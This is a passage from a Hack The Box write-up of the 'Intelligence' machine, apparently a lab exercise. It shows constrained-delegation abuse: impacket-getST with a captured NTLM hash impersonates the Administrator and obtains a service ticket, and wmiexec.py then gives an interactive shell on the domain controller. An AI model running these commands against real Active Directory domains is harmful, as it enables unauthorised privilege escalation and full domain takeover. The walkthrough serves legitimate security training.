
After obtaining the hash, **impacket-getST** can be used to request a Service Ticket and save it as ccache. Since the account has constrained delegation privileges, we can use the -impersonate flag to request a ticket on behalf of another user. The following command will impersonate the Administrator account and request a Service Ticket on its behalf for the www service on host dc.intelligence.htb (time must be synchronized with the dc for this to work). 


```bash
sudo ntpdate 10.129.95.154 # Syncronize time

impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :6c986cdcb965f2607f894fb257417f8e -impersonate administrator intelligence.htb/svc_int
```


Finally, Impacket’s wmiexec.py uses the Windows Management Instrumentation (WMI) to give us an interactive shell on the Windows host. Notice that we must set the environmental variable KRB5CCNAME to have the value of the name of the ccache file we just obtained with impacket-getST.  


```bash
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

![root](/assets/images/hackthebox/intelligence/root.png)


**Rooted!!**

